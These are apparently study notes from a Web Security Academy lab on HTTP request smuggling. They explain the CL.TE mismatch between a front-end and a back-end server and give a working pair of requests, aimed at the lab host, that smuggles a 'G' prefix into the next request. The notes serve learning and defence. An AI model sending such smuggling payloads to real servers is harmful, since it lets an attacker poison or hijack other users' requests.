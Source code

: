 - In HTTP version 1 there are two ways to specify how long the content is 
- The parameters used are `Content-Length` or  `Transfer-Encoding`
- Content-Length value takes no of byte (which can be seen on the right side of burp as selection when selected). Transfer-Encoding takes the no of chunks.
- In a web app there might be a front end server and a back end server.
- The front-end might use content-length to identify the length of the request while back-end might use Transfer-Encoding.
-  What happens in smuggling is that the front only process the request based on content-length and the rest is left.
- when the request reaches the back-end according to the transfer-encoding the request might not be complete and result in a timeout.
- Smuggling take advantage of this vulnerability.
- The Left Part is then used with the next request resulting in the smuggling of the left part.
Note : non-printable characters are also taken as part of content length. turn on the option show non printable character button(the \n button)

First Request:
```
POST / HTTP/1.1
Host: 0a470001049308108199432d0002004f.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G

```

Second Request

```
POST / HTTP/2
Host: 0a470001049308108199432d0002004f.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 7
Foo=bar
```

- The content length of the first request includes the non-printable characters also.
- The G is not consider or is left in the first request
- Then It is send as part of the second request resulting in a  method GPOST.
The second request received on the the server will look like:
```
GPOST / HTTP/2
Host: 0a470001049308108199432d0002004f.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 7
Foo=bar
```